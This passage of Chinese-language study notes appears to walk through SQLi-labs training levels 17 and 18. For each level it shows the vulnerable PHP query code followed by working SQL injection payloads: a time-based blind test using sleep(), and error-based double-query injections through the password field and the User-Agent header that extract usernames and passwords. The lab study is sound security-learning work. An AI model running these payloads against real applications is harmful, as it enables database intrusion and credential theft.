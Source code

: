 ```
uname=admin")and If(ascii(substr(database(),1,1))=115,sleep(2),1)#&passwd=admin&submit=Submit
```
### less-17
##### index.php

```
# uname 参数被过滤了
$uname=check_input($_POST['uname']);  
$passwd=$_POST['passwd'];

# SELECT 语句只获取了 uname 参数 
@$sql="SELECT username, password FROM users WHERE username= $uname LIMIT 0,1";

if select 结果正确:
    # 更新语句 使用单引号拼接 passwd
    $update="UPDATE users SET password = '$passwd' WHERE username='$row1'";

    if mysql 报错:
            print_r(mysql_error());
```
![image](https://note.youdao.com/yws/res/11236/4E37C36FB15846359CF8E60ABCD8A721)
##### payload

```
uname=admin&passwd=1' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT(SELECT CONCAT(CAST(CONCAT(username,password) AS CHAR),0x7e)) FROM users LIMIT 0,1),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a)#&submit=Submit
```
### less-18
##### index.php
```
$uagent = $_SERVER['HTTP_USER_AGENT'];
$IP = $_SERVER['REMOTE_ADDR'];
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
```
> PHP 里用来获取客户端 IP 的变量
> > $_SERVER['HTTP_CLIENT_IP'] 这个很少使用，不一定服务器都实现了。客户端可以伪造。
> > $_SERVER['HTTP_X_FORWARDED_FOR']，客户端可以伪造。
> > $_SERVER['REMOTE_ADDR']，客户端不能伪造。

![image](https://note.youdao.com/yws/res/11246/C5617DE5B97F47C0A0A4BF998DB352B3)
##### paylaod

```
1' AND (SELECT 1 FROM (SELECT COUNT(*),CONCAT((SELECT(SELECT CONCAT(CAST(CONCAT(username,password) AS CHAR),0x7e)) FROM users LIMIT 0,1),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a) and '1'='1
```
### less-19
##### index.php
